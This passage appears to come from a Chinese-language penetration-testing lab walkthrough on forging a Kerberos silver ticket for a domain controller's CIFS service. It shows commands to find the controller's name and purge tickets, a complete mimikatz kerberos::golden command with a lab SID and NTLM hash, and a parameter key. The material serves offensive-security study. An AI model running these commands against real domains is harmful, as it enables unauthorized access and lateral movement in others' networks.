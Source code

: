 目标机器的FQDN

```
net time /domain   
就是hostname+域名 
/target:DC.hacke.testlab
```

回到域内低权限的账号

先使用mimikatz清空票据

```
klist purge			//清除所有票据
kerberos::purge 	//清除票据
kerberos::tgt     //查看票据
```

再导入伪造的票据,具体伪造票据的命令

```
kerberos::golden /domain:hacke.testlab /sid:S-1-5-21-954094320-202977030-1482179831 /target:DC.hacke.testlab /service:cifs /rc4:2c7f354c971b062e1e42f12a30709a7f /user:aaa /ptt
```

```
/domain:域名 
/sid:填sid 
/target:完整的域控名 （这里其实就是hostname+域名）
/service:cifs 
/rc4:服务账号NTMLHASH 
/user:伪造用户名
/ptt：注入内存
```

![image-20230226193945942](images/11.png)
